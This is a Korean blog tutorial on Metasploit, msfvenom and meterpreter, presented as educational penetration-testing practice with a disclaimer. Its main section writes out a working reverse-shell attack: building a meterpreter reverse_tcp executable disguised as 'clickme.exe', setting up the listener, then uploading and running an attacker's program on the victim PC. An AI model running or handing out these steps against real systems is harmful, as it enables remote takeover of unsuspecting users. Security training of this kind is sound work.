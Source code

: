 ```yaml
---
layout: post
title: 안드로이드 모의해킹 실습 01 – 인시큐어뱅크(InsecureBankv2) 활용
categories: MobileHacking
tags: [Android, InsecureBank]
---
```

# 목차
1. Disclaimer
1. Metasploit, msfvenom, meterpreter 란
1. PoC
1. 공격 코드 설명
- - -
  
# 1. Disclaimer
<font color='red'>
All the content shown in this post is only for educational purposes. Any misuse of this content is completely at your own risk.<br>
Do not try to attempt to break laws or do any illegal stuff by using this.<br><br>

이 포스트에서 보여지는 모든 컨텐츠는 교육적인 목적으로만 제작되었습니다. 해당 컨텐츠를 오용한 결과는 전적으로 오용한 본인 책임입니다.<br>
이 포스트에서 다루는 내용을 이용해 불법적인 일을 저지르려고 하지 마십시오.
</font>
- - -
# 2. Metasploit, msfvenom, meterpreter 란
## – Metasploit
메타스플로잇 프로젝트란 취약점 분석과 IDS 서명 개발 보조기구 등에 대한 정보를 제공하는 것을 목적으로 하고 있습니다. 2007년 루비에 의하여 재구조된 후, 2009년 10월 21일 Rapid7이라는 통일 취약성 관리 솔루션을 제공하는 보안 회사에 인수되었습니다.

칼리 리눅스에 메타스플로잇이 기본으로 설치되어있고, 실제로 직접 metasploit-framework 의 모듈 폴더를 보면 탑재된 모듈이 루비로 작성되어있다는 것을 확인할 수 있습니다.


메타스플로잇은 위와 같이 msfbinscan, msfconsole, msfd, msfdb, msfelfscan, msfmachscan, msfpescan, msfremove, msfrop, msfrpc, msfrpcd, msfupdate, msfvenom 이란 프로그램들로 구성되어 있습니다.  
여기서 ~scan이란 이름의 프로그램들은 익스플로잇 도구를 제작할 때 쓰이는 도구이고, 대부분 메타스플로잇을 사용한다고 하면 msfconsole이란 콘솔 커맨드라인 인터페이스를 의미합니다. msfconsole은 메타스플로잇의 대부분의 기능을 지원합니다.

## – msfvenom
위의 프로그램 중에 msfvenom이란 이름의 프로그램이 있습니다. 메타스플로잇의 커맨드라인 인스턴스로써 다양한 쉘 코드를 생성할 수 있습니다.  
예로, 공격자의 ip와 포트번호를 삽입하여 희생자 windows pc의 쉘을 따내는 프로그램을 제작하는데 사용됩니다.

## – meterpreter
메타스플로잇 공격은 주로 msfconsole -> search -> use -> info -> show options -> set -> exploit -> meterpreter 순으로 진행이 됩니다.  
여기서 미터프리터는 in-memory DLL인젝션을 사용한 페이로드로써, 최종적으로 희생자 pc의 exploit에 성공해서 미터프리터 세션이 맺어져 쉘 권한을 획득해 직접 희생자 pc에 명령을 내릴 수 있게 네트워크를 유지시켜줍니다.
- - -
# PoC
{% include youtube_embed.html id="G-3jJCqQ_m8" %}
- - -
# 4. 공격 코드 설명
{% highlight text %}
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.xxx.xxx LPORT=7777 -f exe -o clickme.exe
{% endhighlight %}
msfvenom을 이용해 페이로드(-p)로 윈도우즈 미터프리터 리버스 커넥션을 맺습니다. 여기서 리버스 커넥션이란, 외부에서 내부로 들어오는 inbound 트래픽은 방화벽에서 막지만, 그 반대인 outbound 트래픽의 경우 대부분은 허용해주는 것을 이용해 내부망에서 외부망으로 거꾸로 접속을 하도록하는 쉘코드를 의미합니다.  
LHOST는 공격자 아이피이고 LPORT는 공격자 임의의 포트로 설정합니다.  
포맷(-f)은 exe로 윈도우즈 실행 프로그램이며, clickme.exe 형태로 페이로드를 저장합니다.

{% highlight text %}
msf5 > use exploit/multi/handler
{% endhighlight %}
{% highlight text %}
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
{% endhighlight %}
{% highlight text %}
msf5 exploit(multi/handler) > set lhost 192.168.xxx.xxx
{% endhighlight %}
{% highlight text %}
msf5 exploit(multi/handler) > set lport 7777
{% endhighlight %}
{% highlight text %}
msf5 exploit(multi/handler) > exploit
{% endhighlight %}
익스플로잇을 하고 희생자 pc에서 clickme.exe를 클릭하면 리버스 커넥션이 맺어졌다는 메시지와 함께 미터프리터 세션이 열렸다는 메시지를 받게 됩니다.

{% highlight text %}
meterpreter > sysinfo
{% endhighlight %}
미터프리터 세션을 이용해 희생자 pc의 시스템 정보를 알아냅니다.

{% highlight text %}
meterpreter > upload Warning.exe
{% endhighlight %}
Warning.exe라는, 공격자가 만들어낸 윈도우즈 실행파일을 희생자 pc에 업로드 시킵니다.

{% highlight text %}
meterpreter > execute -f Warning.exe
{% endhighlight %}
공격자가 임의로 Warning.exe를 실행시킵니다.